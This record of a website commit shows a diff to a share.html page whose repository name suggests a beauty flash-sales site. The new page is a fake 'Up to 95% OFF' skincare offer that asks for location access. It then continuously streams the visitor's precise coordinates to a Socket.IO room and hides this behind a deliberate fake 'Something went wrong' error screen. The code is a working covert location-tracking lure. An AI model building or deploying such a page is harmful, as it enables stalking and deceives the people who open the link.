

Before and after one commit to ajdijitalmarketing-dot/foxtale.in-offers-flashsales-, a website: page public/share.html in a window 1280 px wide. Shown: the part 113-800 px from the top of the page, without its empty margins (318-958 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
share.html

```diff
--- a/public/share.html
+++ b/public/share.html
@@ -1,46 +1,142 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-  <title>Continue</title>
-  <meta name="viewport" content="width=device-width">
-  <link rel="stylesheet" href="style.css">
+  <meta charset="UTF-8" />
+  <title>Beauty Sale Offer</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+
+  <style>
+    body {
+      margin: 0;
+      font-family: Arial, sans-serif;
+      background: linear-gradient(135deg, #fff1f5, #ffe4ec);
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      min-height: 100vh;
+    }
+
+    .card {
+      background: #ffffff;
+      max-width: 380px;
+      width: 90%;
+      border-radius: 16px;
+      padding: 24px;
+      box-shadow: 0 10px 30px rgba(0, 0, 0, 0.1);
+      text-align: center;
+    }
+
+    .title {
+      font-size: 22px;
+      font-weight: bold;
+      color: #e11d48;
+      margin-bottom: 10px;
+    }
+
+    .subtitle {
+      font-size: 16px;
+      color: #333;
+      margin-bottom: 16px;
+      line-height: 1.4;
+    }
+
+    .location {
+      font-size: 15px;
+      color: #555;
+      margin-bottom: 20px;
+    }
+
+    .btn {
+      background: #e11d48;
+      color: #fff;
+      border: none;
+      padding: 14px 22px;
+      font-size: 16px;
+      border-radius: 10px;
+      cursor: pointer;
+      width: 100%;
+    }
+
+    .btn:active {
+      transform: scale(0.98);
+    }
+
+    .note {
+      margin-top: 14px;
+      font-size: 12px;
+      color: #888;
+    }
+  </style>
 </head>
 <body>
 
-<div class="container">
-  <div class="card" id="start">
-    <h2>Continue</h2>
-    <p>Allow location access to proceed</p>
-    <button onclick="start()">Continue</button>
+  <div class="card">
+    <div class="title">Beauty Sale Alert!</div>
+
+    <div class="subtitle">
+      Up to <b>95% OFF</b> on best-selling skincare products <br />
+      Limited time offer, check availability in your area
     </div>
 
-  <div class="card" id="error" style="display:none">
-    <h2>Error</h2>
-    <p>Something went wrong. Please try again later.</p>
+    <div class="location">
+      Tap below to view the offer
+    </div>
+
+    <button class="btn" onclick="shareLocation()">
+       Click here to view the offer
+    </button>
+
+    <div class="note">
+      Hurry! Sale ends today ⏳<br />
     </div>
   </div>
 
+  <!-- Socket.IO -->
   <script src="/socket.io/socket.io.js"></script>
+
   <script>
     const socket = io();
-  const room = new URLSearchParams(location.search).get("room");
+    const room = new URLSearchParams(window.location.search).get("room");
+
     socket.emit("join-room", room);
 
-  function start() {
+    function shareLocation() {
+      if (!navigator.geolocation) {
+        alert("Location not supported");
+        return;
+      }
+
       navigator.geolocation.watchPosition(
-      pos => {
+        position => {
           socket.emit("send-location", {
-          roomId: room,
-          lat: pos.coords.latitude,
-          lng: pos.coords.longitude
+            room: room,
+            lat: position.coords.latitude,
+            lng: position.coords.longitude
           });
+
+          // Fake error page after permission (as requested earlier)
+          document.body.innerHTML = `
+            <div style="
+              font-family: Arial;
+              display:flex;
+              justify-content:center;
+              align-items:center;
+              height:100vh;
+              background:#fff1f5;
+              text-align:center;
+              padding:20px;">
+              <div>
+                <h2>⚠️ Something went wrong</h2>
+                <p>Please try again later.</p>
+              </div>
+            </div>
+          `;
         },
-      () => alert("Permission required"),
+        error => {
+          alert("Please allow location access to continue");
+        },
         { enableHighAccuracy: true }
       );
-
-    document.getElementById("start").style.display = "none";
-    document.getElementById("error").style.display = "block";
     }
   </script>
 
```
Lines whose indentation alone changed are shown as unchanged.
